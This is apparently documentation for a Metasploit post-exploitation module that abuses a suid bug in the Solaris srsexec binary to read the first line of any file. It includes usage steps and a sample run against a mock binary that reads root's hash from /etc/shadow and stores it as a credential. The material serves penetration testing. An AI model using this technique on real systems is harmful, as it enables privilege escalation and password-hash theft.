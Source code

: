 ## Vulnerable Application

  The vulnerable binary (`srsexec`) is included in the package Sun Remote Services
  Net Connect Software Proxy Core (SUNWsrspx).  The vulnerable versions are
  3.2.3 and 3.2.4, for Solaris 10.  This package was included on the extras/companion CD which
  doesn't seem to available anymore.  `srsexec`'s vulnerability is that it runs with the suid bit set,
  and in debug verbose mode if given a file as input, the first line of that file will be echoed back.
  Common exploitation is to read `/etc/shadow`, to get root's password hash, however any file can be read.

  In lieu of this, a mock application was created in python and is available
  [here](https://github.com/h00die/MSF-Testing-Scripts/blob/master/srsexec).
  Follow the instructions in the python script to install, `argparse` also needs to be sent
  to the Solaris box since pypi.org doesn't accept ssl2/3 which are the only versions in Solaris 10u9.

  The output from `srsexec` is slightly odd.  The first line of the file will be
  after `binaries file line: ` and truncated at 20 characters.  If the output is longer than 20 characters,
  then the next line will start with the last 2 characters from the previous line, followed by the next 
  18 characters, and so on.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a user level session
  4. Do: ```use solaris/escalate/srsexec_readline```
  5. Do: ```set session [#]```
  6. Do: ```run```
  7. You should be able to read the first line of a file.
  8. If `/etc/shadow` is selected, check `creds`.

## Options

  **File**

  The file that should have the first line read.  Default is `/etc/shadow` and root's hash will be databased.

## Scenarios

### Solaris 10 u9 with mock binary and python 2.4

```
msf post(solaris/escalate/srsexec_readline) > run

[+] 3.2.4 is vulnerable
[+] Raw Command Output: verify_binary(vFYZf)
srsexec: binary_name: vFYZf
srsexec: name_buf: vFYZf_______________
binaries file line: root:MW7h.vpI1Kq1g:1
binaries file line: :17599::::::
smmsp:NP
Security verification failed for binary: vFYZf
see SYSLOG(/var/adm/messages) for errors
[+] First line of /etc/shadow: root:MW7h.vpI1Kq1g:17599::::::
[+] Adding root's hash to the credential database.
[*] Post module execution completed
msf post(solaris/escalate/srsexec_readline) > creds
Credentials
===========

host          origin        service       public   private        realm  private_type
----          ------        -------       ------   -------        -----  ------------
              1.1.1.1                     root     MW7h.vpI1Kq1g         Nonreplayable hash
```
